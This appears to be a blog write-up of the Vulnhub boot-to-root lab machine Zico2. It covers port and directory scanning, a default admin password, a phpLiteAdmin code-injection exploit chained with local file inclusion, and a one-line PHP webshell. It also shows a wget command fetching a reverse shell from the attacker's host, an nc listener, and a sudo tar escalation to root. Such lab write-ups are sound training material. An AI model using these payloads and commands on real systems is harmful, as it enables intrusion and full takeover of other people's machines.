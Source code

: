 ```yaml
---
title: Writeup for the machine Zico from Vulnhub
layout: post
post-image: "https://github.com/0xRar/0xrar.github.io/assets/33517160/1f866af0-c47f-4ab5-a871-f7b775f52367"
tags:
- Writeups
- Vulnhub
- Boot2Root
- Web
---
```


## Machine Information
- Name: Zico
- Difficulty: Intermediate
- URL: [https://www.vulnhub.com/entry/zico2-1,210/]

---

## Initial Enumeration
Starting with Nmap as always:
```
┌──(kali㉿kali)-[~/vulnhub/zico]
└─$ nmap -p- -sV -T4 zico.vh
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-26 12:47 EST
Nmap scan report for zico.vh (192.168.100.185)
Host is up (0.00076s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    Apache httpd 2.2.22 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.03 seconds
```

### HTTP (80)
Directory Enumeration with Gobuster:
```
┌──(kali㉿kali)-[~/vulnhub/zico]
└─$ gobuster dir -u http://zico.vh/ -x .php,.html,.txt,.bak -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt

===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 7970]
/index                (Status: 200) [Size: 7970]
/img                  (Status: 301) [Size: 300] [--> http://zico.vh/img/]
/tools                (Status: 200) [Size: 8355]
/tools.html           (Status: 200) [Size: 8355]
/view                 (Status: 200) [Size: 0]
/view.php             (Status: 200) [Size: 0]
/css                  (Status: 301) [Size: 300] [--> http://zico.vh/css/]
/js                   (Status: 301) [Size: 299] [--> http://zico.vh/js/]
/vendor               (Status: 301) [Size: 303] [--> http://zico.vh/vendor/]
/package              (Status: 200) [Size: 789]
/dbadmin              (Status: 301) [Size: 304] [--> http://zico.vh/dbadmin/]
```

We immediatly find some important paths here such as `/dbadmin/` which has a directory listing
with a file named `test_db.php`, this file is a login portal for `phpLiteAdmin 1.9.3` and 
immediatly trying the password `admin` worked! 

![login_page](https://github.com/0xRar/0xrar.github.io/assets/33517160/a1c4ace7-6e69-48bd-a9aa-4875011970a4)

And looking back at the home page i noticed that the link button leading to the tools page is 
including the html using the view.php script with the `page` GET parameter, Which is vulnerable to
Local File Inclusion.

![tools page](https://github.com/0xRar/0xrar.github.io/assets/33517160/593bda2c-daf4-465c-80c6-75757be60040)

![LFI_Passwd](https://github.com/0xRar/0xrar.github.io/assets/33517160/db28533b-2ea1-4a3a-8e07-fb200f4dfa0e)

Looking for public exploits for the version of phpLiteAdmin turned out to be lucrative,
the version is vulnerable to [Remote PHP Code Injection](https://www.exploit-db.com/exploits/24044),
and it seems like the LFI & phpLiteAdmin admin access is needed to for the exploit.

---

## Initial Foothold
The idea of the PoC is when you create a database it gets stored in the directory you provided on setup
with the appropriate file extensions (`.db, .db3, .sqlite, etc.`), unless you specify so if you want 
code execution your database name should end in .php

Steps to Reproduce PoC:
1. Create a Database with the .php extension.
2. Create a Table with a text field.
3. Add the php webshell code to the text field.
4. Run the php by accessing the file using the LFI found on the view.php, For our file path it's stored
on (/usr/databases/hack.php).

![shell_textfield](https://github.com/0xRar/0xrar.github.io/assets/33517160/127b181f-40aa-4e84-9dcc-108cc244db6d)

The Webshell code i used:
```php
<?php system($_REQUEST["cmd"]) ?>
```

Execution URL: `http://zico.vh/view.php?page=../../../../../usr/databases/hack.php&cmd=`

Now that we have a webshell, to get more of a stable shell, uploading a reverse shell script
to the machine is ideal 

Running HTTP Server:
```
┌──(kali㉿kali)-[~/vulnhub/zico]
└─$ python3 -m http.server 
```

Uploading the [reverse shell](https://github.com/pentestmonkey/php-reverse-shell) script into the machine:
```
http://zico.vh/view.php?page=../../../../../../usr/databases/hack.php&cmd=wget http://192.168.100.182:8000/rev_shell.php -O /tmp/rev_shell.php
```

Listening for connections:
```
┌──(kali㉿kali)-[~/vulnhub/zico]
└─$ nc -lvnp 4444
```

Running the reverse shell using the LFI & web shell:
```
http://zico.vh/view.php?page=../../../../../../usr/databases/hack.php&cmd=php /tmp/rev_shell.php
```

Upgrading the simple shell:
```shell
$ export TERM=xterm
$ python -c 'import pty;pty.spawn("/bin/bash")'
```

---

## Privilege Escalation
### www-data to zico
As expected we are `www-data`, going to the home directory we have a user `zico` inside it 
we have a few interesting directories such as `wordpress & joomla`

```
www-data@zico:/home/zico$ ls -l 
ls -l
total 9212
-rw-rw-r--  1 zico zico  504646 Jun 14  2017 bootstrap.zip
drwxrwxr-x 18 zico zico    4096 Jun 19  2017 joomla
drwxrwxr-x  6 zico zico    4096 Aug 19  2016 startbootstrap-business-casual-gh-pages
-rw-rw-r--  1 zico zico      61 Jun 19  2017 to_do.txt
drwxr-xr-x  5 zico zico    4096 Jun 19  2017 wordpress
-rw-rw-r--  1 zico zico 8901913 Jun 19  2017 wordpress-4.8.zip
-rw-rw-r--  1 zico zico    1194 Jun  8  2017 zico-history.tar.gz
```

Wordpress has the`wp-config.php` in the directory which can give you really sensitive
information such as (admin username, password) and thats how we got the password to zico

```php
[...]
/** MySQL database username */
define('DB_USER', 'zico');

/** MySQL database password */
define('DB_PASSWORD', 'sWfCsfJSPV9H3AmQzw8');
[...]
```

login in via ssh:
```
┌──(kali㉿kali)-[~/vulnhub/zico]
└─$ ssh zico@zico.vh
zico@zico.vh's password:
```

---

### zico to root 
First thing is always `sudo -l` to list the permissions or privileges that 
the user has when using the sudo command

```
Matching Defaults entries for zico on this host:
    env_reset, exempt_group=admin,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User zico may run the following commands on this host:
    (root) NOPASSWD: /bin/tar
    (root) NOPASSWD: /usr/bin/zip
```

Getting root using `/bin/tar` [gtfobins - tar](https://gtfobins.github.io/gtfobins/tar/): 
```
zico@zico:~$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root
```

Thank You For Reading ❤

[https://www.vulnhub.com/entry/zico2-1,210/]: https://www.vulnhub.com/entry/zico2-1,210/
